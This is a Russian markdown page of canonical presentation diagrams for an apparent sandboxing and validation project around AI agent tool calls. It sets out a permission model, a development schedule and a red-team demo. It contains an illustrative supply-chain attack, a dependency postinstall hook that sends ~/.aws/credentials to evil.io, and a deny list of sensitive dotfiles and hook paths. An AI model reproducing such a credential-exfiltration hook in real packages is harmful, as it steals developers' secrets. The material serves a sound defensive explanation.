



# Канонические диаграммы

Топология и путь вызова должны выглядеть одинаково во всех деках. Копируй отсюда,
не перерисовывай.

## Топология



## Две линии обороны — центральный слайд



Сопроводительный текст к этому слайду — цепочка, которую валидатор не видит:

```
pnpm test
 └─ package.json из репо (изменяем кем угодно)
     └─ vitest
         └─ ~1200 пакетов из node_modules
             └─ postinstall → fetch('https://evil.io', body: ~/.aws/credentials)
```

Параметры валидны · бинарь в allowlist · директория правильная · ключи утекли.

## Путь вызова



## Модель прав песочницы

| Операция | По умолчанию | Приоритет правил |
|---|---|---|
| Чтение | разрешено | `allowRead` бьёт `denyRead` |
| Запись | запрещено | `denyWrite` бьёт `allowWrite` |
| Сеть | запрещена | доменный allowlist через прокси |

**Mandatory deny** (не снимается даже явным allow):
`.bashrc` · `.zshrc` · `.profile` · `.gitconfig` · `.git/hooks/` · `.vscode/` · `.idea/` · `.claude/commands/`

## Волны разработки

```mermaid
gantt
    dateFormat X
    axisFormat %s
    section Шов
    E0 контракты          :e0, 0, 1
    section Волна 1
    E1 policy             :e1, 1, 3
    E2 валидатор          :e2, 1, 3
    E3 песочница          :e3, 1, 3
    E6 секреты и аудит    :e6, 1, 3
    E7 UI на моках        :e7, 1, 4
    section Волна 2
    E4 MCP + IPC          :e4, 3, 5
    section Волна 3
    E5 апрувы             :e5, 5, 6
    E8 red-team           :e8, 5, 7
    section Финал
    E9 хардненинг и демо  :e9, 7, 8
```



## Кульминация S5 — таблица переключателя

| Режим | Тесты | Сеть | ФС |
|---|---|---|---|
| `sandbox: none` | ✅ прошли | 🔴 `evil.io:443` — 1.2 KB отправлено | 🔴 `~/.aws/credentials` прочитан |
| `sandbox: seatbelt` | ✅ прошли | 🟢 `evil.io:443` — **denied**, 0 байт | 🟢 `~/.aws/credentials` — **denied** |

Один и тот же валидный вызов. Два клика. Разный исход.
